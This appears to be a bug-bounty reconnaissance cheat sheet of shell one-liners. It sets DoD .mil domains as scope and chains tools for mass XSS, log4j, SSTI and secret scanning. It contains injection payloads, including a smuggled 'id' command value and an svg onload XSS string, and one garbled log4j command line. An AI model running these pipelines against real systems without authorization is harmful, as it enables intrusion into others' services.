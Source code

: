 ###  BBRF SCOPE DoD

```bash
bbrf inscope add '*.af.mil' '*.osd.mil' '*.marines.mil' '*.pentagon.mil' '*.disa.mil' '*.health.mil' '*.dau.mil' '*.dtra.mil' '*.ng.mil' '*.dds.mil' '*.uscg.mil' '*.army.mil' '*.dcma.mil' '*.dla.mil' '*.dtic.mil' '*.yellowribbon.mil' '*.socom.mil'
```



###  Scan All domains using Knoxss
- [Explained command]
```bash
echo "dominio" | subfinder -silent | gauplus | grep "=" | uro | gf xss | awk '{ print "curl https://knoxss.me/api/v3 -d \"target="$1 "\" -H \"X-API-KEY: APIDOKNOXSS\""}' | sh 
```


###  Scan All github repo ORG
- [Explained command]
```bash
docker run --rm  mswell/masstrufflehog -o paypal

```

###  Scan log4j using BBRF and log4j-scan
- [Explained command](https://bit.ly/3IUivk9)
```bash
bbrf domains | httpx -silent | xargs -I@ sh -c 'python3 http://log4j-scan.py -u "@"'
```

###  SSTI in qsreplase add "{{7*7}}" (0xJin)

```bash
cat subdomains.txt | httpx -silent -status-code | gauplus -random-agent -t 200 | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt
ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080

```

###  urldedupe bhedak
- [Explained command]
```bash
waybackurls testphp.vulnweb.com | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'
```

### Hakrawler Airixss XSS 
- [Explained command]
```bash
echo testphp.vulnweb.com | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'
```
